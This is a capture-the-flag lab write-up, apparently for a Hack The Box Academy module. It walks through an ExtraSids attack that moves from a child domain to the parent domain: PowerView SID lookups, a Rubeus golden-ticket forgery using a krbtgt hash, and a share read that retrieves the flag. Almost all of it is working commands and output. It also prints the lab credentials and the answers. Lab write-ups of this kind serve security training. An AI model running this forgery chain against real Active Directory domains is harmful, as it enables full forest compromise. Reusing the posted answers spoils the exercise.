 ## Attacking Domain Trusts - Child -> Parent Trusts - from Windows

>  RDP to 10.129.180.47 (ACADEMY-EA-DC02) with user "htb-student_adm" and password "HTB_@cademy_stdnt_admin!"

* **What is the SID of the child domain?**

I initiated an RDP connection to the target Windows host 10.129.180.47 using xfreerdp with the provided credentials:

 ```c
xfreerdp /v:10.129.240.227 /u:htb-student_adm /p:HTB_@cademy_stdnt_admin! +aero -wallpaper -themes /bpp:16 /gdi:sw
```

Once connected, I launched PowerShell with administrative privileges and executed:

```c
Import-Module C:\Tools\PowerView.ps1
PS C:\Tools> Get-DomainSID
S-1-5-21-2806153819-209893948-922872689
```

* **What is the SID of the Enterprise Admins group in the root domain?**
For this question I executed:

 ```c
PS C:\Tools> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

distinguishedname                                       objectsid
-----------------                                       ---------
CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519
```
* **Perform the ExtraSids attack to compromise the parent domain. Submit the contents of the flag.txt file located in the c:\ExtraSids folder on the ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL domain controller in the parent domain.**

Creating a Golden Ticket with Rubeus:

```c
PS C:\Tools> .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
<snip>
[*] base64(ticket.kirbi):

      doIF0zCCBc+gAwIBBaEDAgEWooIEnDCCBJhhggSUMIIEkKADAgEFoR8bHUxPR0lTVElDUy5JTkxBTkVG
      UkVJR0hULkxPQ0FMojIwMKADAgECoSkwJxsGa3JidGd0Gx1MT0dJU1RJQ1MuSU5MQU5FRlJFSUdIVC5M
      T0NBTKOCBDIwggQuoAMCARehAwIBA6KCBCAEggQcmw/pbwEpysmt+ihCBMo4k2fSDkQ4JczAzRUGkDGz
      ge3LquQ0/ChHEKj6cefgubjubQAAysNKF5SdT3lWqsDcMU80vZpbz8hXe22xnR1ce4amJE3okOxMdp/C
      wPE4ezKhthACe86qL/z7n0WEgXqqjz5MhBkO8yiaCH68EOU08Yuy1PX1REOsu4vMAMiEsnc0aBXCZTAI
      Df/t467MzJOOf/kRyOKIUv4QAlkyZsgy9EYq8EucT41X85jCOIF/MIWeuqI55JfMSRcLT0qcyEIQuXCT
      IHSE+7odBmKKZjloy0QkMEYnaXs/7fqXsTHJVjJ0xXZQZAZus0/vynkyJ+Wy/5Ymd6bI/ndW3ZIE+6Hq
      Xa/EudhnrpX3WbERpj6uvywQxpOtfHIJjUFOKTUyZNliahYC8RjIXSmyiqXtu7jVvdN7P5wA426RHBQk
      WxMYFRJmVz1aizOoxVczebELRUrogyaTKtCs7QHpHSYX7WLVe5Wz4f49+QKQhKVhBGv3z0FLuSiT+zGI
      ySp5adlSbXT1qOdM0A32t3AYFp++nB7qMeBhhnM4Kbu4xszgfgsSIW21QnepxshS8fZpUngDNMVEvitK
      h6u45Csy8+C4Erw/PhClYAkhlU2XnG5qVsVLhjPPJP2dnzrTw2a4fLK5lTIlmLYK1sV24d1nD+D+7iLq
      HfYsMNqRuS1J1+2UkUiYOZ66w0tEULwLhGnICmBr3wksOPHf8KzAWwlXX1U/6irrvixLdIi3pOCmF4qw
      S1Bn45OOBgFLopuR0SqzClMO5GVHAk8ui+CB4HAKuvmzYwEYtxS9o3TOjj81+LvvA50jaRvbs0lsRcIK
      2qKfXE2BqM9JG5qnc12u6zBO+Ws+xOcNDbYrLryB5+simMkyJnwYocfNEvIxNJ/z8sBhkj1DFLiGhmH4
      AHnPxS4oCOaCNwHg3owMfyDO9FUWzGhnhqabtWQNACylYV4chSHd3FzZu+h3x85G4e/snIOFX9qSLiwW
      IXESIuhN5sQQPQD94ro/KUaMNdoyih2k9ema+6J3s6EVhuranZRbJmMrI5mSnJHtytEk3NwCG47l6yGi
      Kbpe4GrYuH4xzwdzsnNE7YZc1QJA2r22Ty1S9aB8lWusVHmzmWKzt7rH5O0oE8cEaGbyrBNqM7+Q5RPL
      W9qVI2D9PQroEk1fwqjI3C4dahWfhe2qGnTgPeFlRnl8VUrCrJ+Yq8nc24RRCN978zAb76ll86GOC3/H
      5+IOoQTqDWU+QXgsrH79IR/ePKF1CHQ8GacH8Dh8wLa9pqw6TEnngniRFtnTnQAhMGTEdgQ7A49b6LlC
      AoJLN13kKMKKIF9tSUZMSKwVo0RyunpewhWh/XuJ1PV+f+jfkxMXXXPTY1CWb2sAnBaE2tC+pyn+L9gQ
      quOjggEhMIIBHaADAgEAooIBFASCARB9ggEMMIIBCKCCAQQwggEAMIH9oBswGaADAgEXoRIEEEeqw1kh
      mGz/gaLfNFOVnxehHxsdTE9HSVNUSUNTLklOTEFORUZSRUlHSFQuTE9DQUyiEzARoAMCAQGhCjAIGwZo
      YWNrZXKjBwMFAEDgAACkERgPMjAyNTAzMjUxNTQ5NDhapREYDzIwMjUwMzI1MTU0OTQ4WqYRGA8yMDI1
      MDMyNjAxNDk0OFqnERgPMjAyNTA0MDExNTQ5NDhaqB8bHUxPR0lTVElDUy5JTkxBTkVGUkVJR0hULkxP
      Q0FMqTIwMKADAgECoSkwJxsGa3JidGd0Gx1MT0dJU1RJQ1MuSU5MQU5FRlJFSUdIVC5MT0NBTA==


[+] Ticket successfully imported!
<snip>
```
Verifying the Kerberos Ticket

```c
PS C:\Tools> klist

Current LogonId is 0:0xe8f60

Cached Tickets: (1)

#0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
        Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 3/25/2025 8:49:48 (local)
        End Time:   3/25/2025 18:49:48 (local)
        Renew Time: 4/1/2025 8:49:48 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```
Accessing a the flag Using the Forged Ticket:

```c
PS C:\Tools> cat \\academy-ea-dc01.inlanefreight.local\c$\ExtraSids\flag.txt
f@ll1ng_l1k3_d0m1no3$
```
[![Screenshot-2025-03-25-120057.png](https://i.postimg.cc/tgZv16r7/Screenshot-2025-03-25-120057.png)](https://postimg.cc/5HJSTXWM)
